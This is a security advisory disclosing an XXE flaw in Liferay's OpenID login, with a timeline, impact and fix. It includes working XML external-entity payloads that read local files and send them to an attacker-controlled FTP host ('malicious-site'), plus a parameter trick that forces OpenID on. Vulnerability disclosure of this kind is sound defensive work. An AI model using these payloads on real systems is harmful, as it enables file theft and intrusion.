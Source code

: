 # XML External Entity XXE vulnerability in OpenID component of Liferay

- Author: Sandro Gauci <sandro@enablesecurity.com>
- Vulnerable version: Liferay 6.2.3 CE GA4 and earlier
- Liferay reference: LPS-58014
- Advisory URL: <https://github.com/EnableSecurity/advisories/tree/master/ES2016-01-liferay-xxe>
- Timeline:
	- Report date: March 16 2015
	- Liferay patch: August 26 2015
	- Liferay advisory: January 18 2016
	- Enable Security advisory: June 1 2016

## Description

Liferay supports OpenID login which was found to make use of a version
of `openid4java` that is vulnerable to XML External Entity (XXE)
attacks.

## Impact

Abuse of the XXE vulnerability can (at least) lead to local file
disclosure, server-side request forgery (SSRF) and denial of service.
This vulnerability was abused to read local files on the web server
that the web application had access to.

## How to reproduce the issue

This issue was previously discovered to affect  [one of Google's web
server](https://code.google.com/p/chromium/issues/detail?id=240139)
which was using the same OpenID library.

To abuse this vulnerability, an attacker needs to:

1. Force Liferay to make use of OpenID for authentication
2. Provide an attacker-controlled URL (web location) as the OpenID URL. This URL should contain malicious XML (see below)
3. Upon reading the XML, the OpenID library will attempt to load the external entity on the attacker's web server
4. This external entity instructs the library to read a file from local disk and make use of it's contents to load another file from an attacker controlled (custom) FTP server

Thus the contents of the file to be read are sent to the custom FTP
server. During exploitation, we had to make use of a fake FTP server
(from <https://github.com/ONsec-Lab/scripts>) to receive the
information. However, it might be possible to use HTTP and other
protocols too depending on the version of Java used and other
variables.

For step 1, the attacker needs to locate the authentication form in
Liferay and then click on the OpenID link. The attacker then specifies <http://malicious-site> as an OpenID URL. This website would contain the following:

```html
<meta http-equiv="X-XRDS-Location" 
	content="http://malicious-site/yadis.xml"> 
```

As the OpenID library reads that, it loads `yadis.xml` which would contain the
following:

```xml
<?xml version="1.0"?>
	<!DOCTYPE a [
	   <!ENTITY % asd SYSTEM "http://malicious-site/xxe.xml"> 
	   %asd; 
	   %rrr; 
	]>
<a></a>
```

This loads `xxe.xml` which in turn would contain the following:

	<!ENTITY % b SYSTEM "file:///">
	<!ENTITY % c "<!ENTITY &#37; rrr SYSTEM 'ftp://malicious-site:443/%b;'>">
	%c;

Once the XML interpreter parses these contents, it connects to the FTP
site, sending the contents of the root directory on the server as can
be seen in the following log:

	> sudo ruby xxe-ftp-server.rb
	FTP. New client connected
	< USER anonymous
	< PASS Java1.6.0_21@
	> 230 more data please!
	< TYPE I
	> 230 more data please!
	< EPSV ALL
	> 230 more data please!
	< EPSV
	> 230 more data please!
	< EPRT |1|172.x.x.x|39051|
	> 230 more data please!
	< bin
	> 230 more data please!
	< boot
	> 230 more data please!
	< dev
	> 230 more data please!
	< etc
	> 230 more data please!
	< home
	> 230 more data please!
	... etc

Directories and also local files could be read using this method.

Note that sometimes the OpenID login method is hidden but the functionality is not disabled from within Liferay itself. In such cases, it is possible to force Liferay to make use of OpenID anyway by setting the `_58_struts_action` parameter from `/login/login` to `/login/open_id`. 

## Solutions and recommendations

Upgrading to the latest version of Liferay should address this
security vulnerability. The patch was published at the following location: <https://sourceforge.net/projects/liferay-patches/files/6.2.3%20GA4/>

Additionally, to address this issue it is recommended to disable
OpenID support.

## Further reading

- <http://openid.net/2011/05/05/attribute-exchange-security-alert/>
- <https://code.google.com/p/chromium/issues/detail?id=240139>
